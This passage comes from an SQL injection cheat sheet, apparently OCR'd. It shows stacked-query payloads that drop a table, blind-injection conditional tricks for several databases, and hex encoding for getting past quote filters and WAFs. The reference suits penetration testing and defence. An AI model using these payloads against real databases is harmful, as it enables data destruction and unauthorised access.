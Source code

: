 **PHP - MySQL doesn't support stacked queries**, Java doesn't support stacked queries (*I'm sure for ORACLE, not quite sure about other databases*). *Normally MySQL supports stacked queries but because of database layer in most of the configurations it's not possible to execute a second query in PHP-MySQL applications or maybe MySQL client supports this, not quite sure. Can someone clarify?*

##### Stacked SQL Injection Attack Samples

- ID: `10;DROP members --`
- `SELECT * FROM products WHERE id = 10; DROP members--`

This will run *DROP members* SQL sentence after normal SQL Query.

### If Statements

Get response based on an if statement. This is **one of the key points of Blind SQL Injection**, also can be very useful to test simple stuff blindly and **accurately**.

#### MySQL If Statement

- `IF(***condition*,*true-part*,*false-part***) `(M)` [[NEWLINE]]SELECT IF(1=1,'true','false')`

#### SQL Server If Statement

- `IF ***condition*** ***true-part*** ELSE ***false-part***` (S)

`IF (1=1) SELECT 'true' ELSE SELECT 'false'`

#### Oracle If Statement

- `BEGIN[[NEWLINE]]IF ***condition*** THEN ***true-part***; ELSE ***false-part***; END IF; END;` (O)

`IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;`

#### PostgreSQL If Statement

- `SELECT CASE WHEN ***condition*** THEN ***true-part*** ELSE ***false-part***` END; (P)

`SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;`

##### If Statement SQL Injection Attack Samples

`if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0` (S)

This will throw an **divide by zero error** if current logged user is not **"sa" or "dbo"**.

### Using Integers

Very useful for bypassing, **magic_quotes() and similar filters**, or even WAFs.

- `0x*HEXNUMBER*` (SM)

You can  write hex like these;

`SELECT CHAR(0x66)` (S)
`SELECT 0x5045` (*this is not an integer it will be a string from Hex*) (M)
`SELECT 0x50 + 0x45` (*this is integer now!*) (M)

### String  Operations
